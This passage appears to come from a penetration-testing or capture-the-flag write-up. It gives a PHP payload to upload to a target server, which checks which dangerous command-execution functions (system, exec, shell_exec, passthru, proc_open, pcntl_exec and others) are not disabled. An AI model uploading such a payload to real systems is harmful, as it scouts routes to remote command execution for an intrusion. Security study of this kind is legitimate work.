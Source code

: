The same can be achieved uploading the following payload which checks what *PHP Dangerous Functions* are not disabled

> [!IMPORTANT]- *PHP Payload*
>
> ```php
> <?php
> function getEnabledFunctions () {
>     
>     $commandFunctions = [
>         'pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled',
>         'pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler',
>         'pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait',
>         'pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec',
>         'popen','proc_open','passthru','link','symlink','syslog','ld','mail'
>     ];
> 
>     $disabledFunctions = array_map('trim', explode(',', ini_get('disable_functions')));
>     $enabledFunctions = array_diff($commandFunctions, $disabledFunctions);
> 
>     if (!empty($enabledFunctions)) {
>         foreach ($enabledFunctions as $function) {
>             echo "Function enabled ->" . $function . "<br>";
>         }
>     }
> }
>
> getEnabledFunctions();
> ?>
> ```